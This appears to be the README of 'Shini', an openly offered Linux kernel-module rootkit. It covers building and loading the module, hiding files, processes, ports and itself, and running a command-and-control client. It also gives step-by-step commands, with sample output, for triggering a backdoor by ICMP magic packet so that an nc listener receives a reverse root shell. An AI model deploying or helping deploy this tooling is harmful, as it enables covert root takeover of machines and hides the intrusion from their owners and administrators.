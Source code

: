# Intro

Shini is a modular lkm based rootkit for linux. Its purpose is to be simple, modular, 
generic (without relying on an architecture) and to segment its logical behavior from its hook methods.

# Features
  - exec any program with root privileges.
  - hide module (only itself).
  - hide files.
  - hide procresses.
  - hide tcp/udp (4 or 6, source or destination) connections.
  - netfilter backdoor.
 
# Dependencies
- gcc
- make
- linux headers
- insmod

# Tools

- shini/misc/cb, connect back. (the backdoor)
- shini/misc/cc, command and control (the client that will communicate with the rootkit).
- shini/scripts/bdt, backdoor trigger (a python script that will send icmp magic packets to the target).

# Build/Install

First you need to compile and load the lkm.

```console
# git clone https://github.com/Jin-Roh/shini
# cd shini/build
# make
# insmod shini.ko
```

Build and install the tools listed above.

```console
# cd shini/misc/
# ./install.sh
```

This shell script will be responsible for compiling, creating a folder in /etc/opt/ with a predetermined prefix, 
modifying the name of the programs and placing them in the folder created previously.

# Uninstall

```Just remove the module, if module_hide() are not commented in the main.c,``` 
```this will not work, it's necessary to reboot your vm.```

```console
# rmmod shini
```

# Standard Configuration

- prefix : .\_shini\_
- path   : /etc/opt/.\_shini\_/
- helper : /etc/opt/.\_shini\_/._shini_helper
- cb     : /etc/opt/.\_shini\_/._shini_cb
- cc     : /etc/opt/.\_shini\_/._shini_cc

Read shini/misc/install.sh and shini/src/include/config.h files for more details.

# Usage
## Command and Control
```console
$ cd /shini/misc/cc/build
$ make
$ ./cc
```
or after run the install script.

```console
cd /etc/opt/._shini_/
./._shini_cc
```

The way to use it with examples will appear on the console.

```console
usage: 

./cc -e <exec>
./cc -h <value> -l <list>
./cc -s <value> -l <list>

<list>: 
	proc , hidden proc list
	file , hidden file list
	t4_s , hidden tcp4 source port list
	t4_d , hidden tcp4 dest port list
	t6_s , hidden tcp6 source port list
	t6_d , hidden tcp6 dest port list
	u4_s , ..
	u4_d , ..
	u6_s , ..
	u6_d , ..

examples:

./cc -e /bin/sh        	 - exec /bin/sh as root
./cc -h 1878  -l proc  	 - hide pid 1878
./cc -s 1878  -l proc  	 - show pid 1878
./cc -h 14000 -l file  	 - hide ino 14000
./cc -h 22    -l t4_s  	 - hide tcp4 src  port 22
./cc -h 1337  -l u6_d  	 - hide udp6 dest port 1337

```

## Backdoor

On your machine, first listen to the connection on a port using nc, e.g.:
```console
$ nc -vvlp 4430
```

Still on your machine, run the ```bdt.py```(needs root) script with the correct parameters, e.g.: 

```console
# cd shini/scripts/bdt
# python2.7 bdt.py -t <target> -h <host> -p <port>
# python2.7 bdt.py -t 192.168.1.103 -h 192.168.1.100 -p 4430
[+] Data : backdoor!_192.168.1.100_4430_
[+] Packet sent!
```

- target, where the rootkit is installed.
- host, machine that receives the reverse connection.
- port, the port.
 
If all goes well, you will receive a root shell on nc.

```console
$ nc -vvlp 4430
listening on [any] 4430 ...
192.168.1.103: inverse host lookup failed: 
connect to [192.168.1.100] from (UNKNOWN) [192.168.1.103] 49548
id
uid=0(root) gid=0(root) groups=0(root)
```

# Debug Messages

If syslog are installed:

```console
# tail -f /var/log/messages
```

Or:

```console
# dmesg | grep shini
```

# Tested on
 
- Linux 3.16.0-4-686-pae #1 SMP Debian 3.16.43-2+deb8u5 (2017-09-19) i686 GNU/Linux
- Linux 4.17.12-arch1-1-ARCH #1 SMP PREEMPT Fri Aug 3 07:16:41 UTC 2018 x86_64 GNU/Linux

# TODO
 
- persistence related to reboots (maybe the module infection technique, see references[4][7]).
- code documentation.
- better installation script.
- more tests, (mips, arm, powerpc, etc...).
- more tests, (kernel linux sources).

# References

1. https://elixir.bootlin.com/linux/v4.17.13/source
2. https://github.com/mncoppola/suterusu
3. http://phrack.org/issues/68/6.html#article  : Android platform based linux kernel rootkit, by dong-hoon you
4. http://phrack.org/issues/68/11.html#article : Infecting loadable kernel modules, by styx^
5. http://www.ouah.org/LKM_HACKING.html
6. http://phrack.org/issues/50/5.html#article  : Abuse of the Linux Kernel for Fun and Profit, by halflife
7. http://phrack.org/issues/61/13.html#article : Hacking the Linux Kernel Network Stack, by bioforge 
8. http://phrack.org/issues/61/10.html#article : Infecting loadable kernel modules, by truff

License
----
MIT
